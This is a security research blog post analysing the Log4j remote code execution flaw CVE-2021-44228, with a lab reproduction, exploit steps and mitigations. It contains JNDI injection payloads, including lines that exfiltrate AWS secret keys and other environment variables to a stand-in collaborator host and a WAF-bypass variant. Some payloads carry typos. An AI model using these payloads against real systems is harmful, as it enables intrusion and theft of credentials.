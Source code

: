 ```yaml
---
layout: post
title:  "Apache Log4j RCE 0day: CVE-2021-44228"
date:   2021-12-11 16:00:00 +0700
categories: research
author: Quang Vo
description: Research analysis and develop a working exploit poc script 
---
```


Reference:
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java


## Introduction Apache Log4j and Description of the vulnerability
Apache Log4j is one of the most popular logging library, widely used in Java web applications and Apache products ( such as Apeche Struts, Apache Solr, ... ).
Because of the nature of the library is logging, the data being logged originates from user inputs. If the user input contains some special characters and logged by `Log4j`, the Java method `lookup` will be called to execute a user-defined remote class in the LDAP server.
This will eventually becomes RCE ( depends on environment configrations ) 

## Affected version 

Apache Log4j 2.x <= 2.15.0-rc1

## Affected Software

There have been reports said that Steam, Apple and Twitter vulnerable to this attack, and other softwares like:
- Apache Struts
- Apache Solr
- Elasticsearch
- Ghidra

...

## Exploitation

### 1. Reproduce with vulnerable app
Link to the vulnerable app that use `log4j`: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

Start the app:
```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Example of vulnerable code:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

}
```

Sending payload to the vulnerable web app:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

### 2. Exploit steps

1. Data from user inputs get logged from the back-end that using `log4j`
2. User send malicious payload that get logged in server: `${jdni:ldap://<attacker_ip>/a` 
3. The Log4j vulnerablity triggered by this payload and server makes a request to `<attacker_ip>` server via JDNI 
4. The attacker's server response a path to a remote Java class file ( `https://attack-server/Exploit.class` ) which injected to victim's server process
5. The Injected payload got triggered, allows an attacker to gain remote code execution.

### 3. Extract environment from vulnerable server
```
${jdni:ldap://${env:USER}.collabolatorendpoint.net/a}
${jdni:ldap://${env:AWS_SECRET_ACCESS_KEY}.collabolatorendpoint.net/a}
${jdni:ldap://${env:VAULT_KEY}.collabolatorendpoint.net/a}
...
```

### 4. Bypass WAF ( Cloudflare, ... )

```
${${lower:j}dni:${lower:l}dap://${env:USER}.collabolatorendpoint.net/a}
```

## Mitigation
- Update to log4j version `2.15.0-rc2` 
- Block all untrusted outbound traffic
- Add "log4j.format.msg.nolookups=true" global configuration

